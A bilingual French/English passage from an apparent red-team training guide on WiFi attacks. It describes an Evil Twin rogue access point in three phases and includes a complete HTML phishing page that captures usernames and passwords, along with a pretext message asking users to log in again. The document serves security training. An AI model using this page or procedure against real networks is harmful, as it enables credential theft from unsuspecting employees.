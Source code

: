 *Contre-mesures immédiates :*
- Activation du filtrage MAC
- Changement de canal WiFi
- Activation de la protection 802.11w (PMF)
- Investigation de l'origine de l'attaque

#### 🔴 Scénario 3 : Point d'Accès Malveillant (Evil Twin)
### Malicious Access Point (Evil Twin)

**Contexte / Context**

**Français :** Création d'un faux point d'accès pour capturer les identifiants des employés. 

**English :** Creating a rogue access point to capture employee credentials.

**Procédure Red Team Détaillée / Detailed Red Team Procedure**

*Phase 1 : Clonage du réseau légitime*
```bash
WiFi Scanner → Identifier "Corp-WiFi"
- SSID: Corp-WiFi
- Sécurité: WPA2-PSK
- Canal: 6
- Signal: -45 dBm
```

*Phase 2 : Configuration de l'Evil Twin*
```bash
WiFi → Evil Portal
- SSID: Corp-WiFi (identique)
- Security: Open (pour faciliter la connexion)
- Channel: 11 (différent pour éviter l'interférence)
- Captive Portal: Activé
- DNS Spoofing: Activé
```

*Phase 3 : Création de la page de capture*
```html
<!-- Page de capture d'identifiants -->
<!DOCTYPE html>
<html>
<head>
    <title>Corp-WiFi - Authentification</title>
    <style>
        body { font-family: Arial; background: #f0f0f0; }
        .login-box { 
            width: 300px; margin: 100px auto; 
            background: white; padding: 30px;
            border-radius: 10px; box-shadow: 0 0 10px #ccc;
        }
        input { width: 100%; padding: 10px; margin: 10px 0; }
        button { background: #007acc; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Connexion Corp-WiFi</h2>
        <form action="/capture.php" method="post">
            <input type="text" name="username" placeholder="Nom d'utilisateur" required>
            <input type="password" name="password" placeholder="Mot de passe" required>
            <button type="submit">Se connecter</button>
        </form>
        <p><small>Système de sécurité mis à jour. Veuillez vous reconnecter.</small></p>
    </div>
</body>
</html>
```
